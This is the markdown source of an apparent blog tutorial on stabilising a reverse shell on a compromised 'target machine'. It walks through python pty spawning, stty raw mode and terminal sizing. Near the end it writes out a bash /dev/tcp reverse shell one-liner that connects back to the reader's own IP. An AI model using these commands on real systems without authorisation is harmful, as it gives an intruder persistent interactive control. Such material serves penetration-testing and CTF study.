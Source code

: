 ```yaml
---
title:  "Upgrading your reverse shell"
path: ""
type: posts
layout: single
author_profile: true
read_time: true
comments: true
share: true
related: true
future: true
toc: true
toc_sticky: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
    teaser: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

For this method to work, we have to check if our target machine has `python2` or `python3` installed via:
```
which python
```
If no output is returned, repeat the above step for `python3`.

Assuming you are running bash, in your reverse shell, run the command below for whichever version of `python` available in the target machine:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`<br>
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
> If your shell formatting is off, simply enter the command:
```
reset
```

Press on your keyboard: `Enter` (twice)

Notice that our shell does not cover our entire terminal. To fix this, we shall open another terminal tab and input the following commands:
```
echo $TERM
```
Output: `xterm-256color`
```
stty size
```
Output: `70 255`

In our reverse shell:
```
export TERM=xterm-256color
stty rows 70 columns 255
```

Our reverse shell should now utilize the terminal's full features!

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!